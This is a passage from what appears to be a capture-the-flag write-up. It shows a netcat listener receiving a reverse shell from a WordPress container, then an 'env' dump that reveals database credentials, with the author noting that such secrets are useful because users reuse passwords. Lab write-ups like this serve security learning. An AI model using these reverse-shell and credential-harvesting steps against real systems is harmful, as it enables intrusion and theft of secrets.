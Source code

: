 !!! success "Caught"
    ```sh
    grinchum-land:~$ nc -lvnp 9090
    Listening on [0.0.0.0] (family 0, port 9090)
    Connection from 172.18.0.88 60556 received!
    bash: cannot set terminal process group (1): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@wordpress:/var/www/html$ 
    ```

## Hacker Voice: "I'm in."

Generally, once I'm in as the `www-user` there isn't a whole lot I can _do_ per se, but there is a whole lot of information I can _read_. Specifically all the information that the web app needs to run! Database credentials, access to user login credentials (and users are notorious for re-using passwords), the works. This wordpress app runs in a docker container and most of the credentials are typically fed in to the app by means of environment variables. So I can type `env` and dump those right now:

!!! success "Environment Variables"
    ```sh
    HOSTNAME=wordpress.flag.net.internal
    PHP_VERSION=7.4.32
    APACHE_CONFDIR=/etc/apache2
    PHP_INI_DIR=/usr/local/etc/php
    GPG_KEYS=42670A7FE4D0441C8E4632349E4FDC074A4EF02D 5A52880781F755608BF815FC910DEB46F53EA312
    PHP_LDFLAGS=-Wl,-O1 -pie
    PWD=/var/www/html
    APACHE_LOG_DIR=/var/log/apache2
    LANG=C
    PHP_SHA256=323332c991e8ef30b1d219cb10f5e30f11b5f319ce4c6642a5470d75ade7864a
    APACHE_PID_FILE=/var/run/apache2/apache2.pid
    WORDPRESS_DB_HOST=wordpress-db
    PHPIZE_DEPS=autoconf            dpkg-dev                file            g++             gcc   
    libc-dev                 make            pkg-config              re2c
    PHP_URL=https://www.php.net/distributions/php-7.4.32.tar.xz
    APACHE_RUN_GROUP=www-data
    APACHE_LOCK_DIR=/var/lock/apache2
    SHLVL=2
    PHP_CFLAGS=-fstack-protector-strong -fpic -fpie -O2 -D_LARGEFILE_SOURCE -D_FILE_OFFSET_BITS=64
    WORDPRESS_DB_PASSWORD=wordpress-db-password
    WORDPRESS_ENV=true
    APACHE_RUN_DIR=/var/run/apache2
    APACHE_ENVVARS=/etc/apache2/envvars
    APACHE_RUN_USER=www-data
    WORDPRESS_DB_USER=wordpress-db-user
    PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
    WORDPRESS_DB_NAME=wordpress-db-name
    PHP_ASC_URL=https://www.php.net/distributions/php-7.4.32.tar.xz.asc
    PHP_CPPFLAGS=-fstack-protector-strong -fpic -fpie -O2 -D_LARGEFILE_SOURCE -D_FILE_OFFSET_BITS=64
    _=/usr/bin/env
    OLDPWD=/var/www
    ```
